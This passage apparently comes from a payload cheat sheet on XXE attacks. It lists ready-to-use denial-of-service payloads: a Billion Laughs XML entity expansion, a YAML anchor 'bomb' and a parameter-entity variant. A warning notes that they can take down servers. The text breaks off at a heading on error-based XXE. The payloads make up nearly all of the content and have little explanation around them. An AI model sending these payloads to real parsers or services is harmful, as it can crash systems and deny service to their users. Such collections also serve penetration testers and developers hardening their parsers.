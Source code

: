 
## Exploiting XXE to Perform a Denial of Service

:warning: : These attacks might kill the service or the server, do not use them on the production.

### Billion Laugh Attack

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### YAML Attack

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

### Parameters Laugh Attack

A variant of the Billion Laughs attack, using delayed interpretation of parameter entities, by Sebastian Pipping.

```xml
<!DOCTYPE r [
  <!ENTITY % pe_1 "<!---->">
  <!ENTITY % pe_2 "&#37;pe_1;<!---->&#37;pe_1;">
  <!ENTITY % pe_3 "&#37;pe_2;<!---->&#37;pe_2;">
  <!ENTITY % pe_4 "&#37;pe_3;<!---->&#37;pe_3;">
  %pe_4;
]>
<r/>
```


## Exploiting Error Based XXE

### Error Based - Using Local DTD File
